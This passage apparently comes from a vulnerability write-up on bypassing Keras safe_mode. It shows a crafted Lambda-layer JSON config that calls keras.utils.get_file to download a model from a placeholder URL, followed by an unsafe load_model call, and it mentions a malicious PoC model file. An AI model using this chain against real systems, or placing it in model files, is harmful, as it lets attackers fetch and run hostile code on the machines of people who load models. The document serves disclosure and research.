 ```python
load_model("/tmp/provola/model.keras", safe_mode=False)
```

**Bonus Step: Downloading a model from the Internet**

```json
{
  "module": "keras.layers",
  "class_name": "Lambda",
  "config": {
    "name": "download_file",
    "function": {
      "module": "keras.utils",
      "class_name": "function",
      "config": "get_file",
      "registered_name": "function"
    },
    "arguments": {
      "origin": "https://some-url.com/file",
      "cache_subdir": "/tmp/provola"
    }
  },
  "build_config": {
    "input_shape": [null, 10]
  },
  "name": "download_file",
  "inbound_nodes": [
    {
      "args": [],
      "kwargs": {
        "inputs": "model.keras"
      }
    }
  ]
}
```

Here, `keras.utils.get_file` downloads a file from the internet. The final call is:

```python
get_file("model.keras", origin="https://some-url.com/file", cache_dir="/tmp/provola")
```

The `cache_subdir` specifies the download directory, and `origin` is the URL. `inputs` here represents the `fname` (filename) of the file to be downloaded.

This bonus step is inspired by [this blog post](https://jfrog.com/blog/keras-safe_mode-bypass-vulnerability/) by Andrey Polkovnichenko, JFrog Security Researcher.


### Proof of Concept (PoC)
The complete PoC is available.

The PoC consists of a `poc.keras` file containing the malicious model. This file includes steps 1 and 2 analyzed so far, but it unsafely loads a local model (`model.keras`) instead of downloading one from the internet, as I did not want to host a malicious file. The local model `model.keras` can be generated using `generate_model_keras.py`.
